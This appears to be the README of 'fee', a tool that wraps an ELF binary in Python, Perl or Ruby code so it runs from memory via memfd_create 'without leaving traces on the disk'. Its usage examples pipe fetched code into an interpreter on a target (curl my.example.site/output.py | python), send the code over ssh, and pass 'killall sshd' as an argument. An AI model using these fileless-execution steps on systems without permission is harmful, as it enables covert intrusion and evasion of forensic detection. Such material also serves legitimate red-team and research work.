 ## Execute ELF files on a machine without dropping an ELF

[![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black)

### Description

This Python script generates interpreted code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 or later (for `memfd_create` support)
 * An interpreter. Any of these:
   * Python 2
   * Python 3
   * Perl
   * Ruby


### Installation

Install this on your host machine using [pipx](https://github.com/pypa/pipx):
```console
$ pipx install fee
```

... or regular pip:
```console
$ pip install --user fee
```

You may also clone this repository and run the script directly.

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ fee /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

Alternatively, you may generate Perl or Ruby code instead with the `--lang` flag (`-l`):
```console
$ fee /path/to/binary -l pl | perl
```

```console
$ fee /path/to/binary -l rb | ruby
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c` (or `perl -e`, `ruby -e` accordingly):

```console
$ fee -c /path/to/binary | ssh user@target
```

When piping over ssh, you sometimes want to wrap the long line which holds the base64-encoded version of the binary, as some shells do not like super long input strings. You can accomplish this with the `--wrap` flag (`-w`):
```console
$ fee -c /path/to/binary -w 64 | ssh user@target
```

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ fee -a "killall sshd" ./busybox > output.py
```

__NB!__ By default, the script parses the encoded ELF's header to determine the target architecture. This is required to use the correct syscall number when calling `memfd_create`. If this fails, you can use the `--target-architecture` (`-t`) flag to explicitly generate a syscall number. Alternatively, you can use the `libc` target to resolve the symbol automatically at runtime, although this only works when generating Python code.
For more exotic platforms, you should specify the syscall number manually. You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest. You can then specify the syscall number using the `--syscall` flag (`-s`).

Full help text:
```
usage: fee [-h] [-t ARCH | -s NUM] [-a ARGV] [-l LANG] [-c] [-p PATH] [-w CHARS] [-z LEVEL]
              path

Print code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            show this help message and exit
  -t ARCH, --target-architecture ARCH
                        target platform for resolving memfd_create (default: detect from ELF)
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target platform
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied to execle (default:
                        path to file as argv[0])
  -l LANG, --language LANG
                        language for the generated code (default: python)
  -c, --with-command    wrap the generated code in a call to an interpreter, for piping directly
                        into ssh
  -p PATH, --interpreter-path PATH
                        path to interpreter on target if '-c' is used, otherwise a sane default is
                        used
  -w CHARS, --wrap CHARS
                        when base64-encoding the elf, how many characters to wrap to a newline
                        (default: 0)
  -z LEVEL, --compression-level LEVEL
                        zlib compression level, 0-9 (default: 9)
```
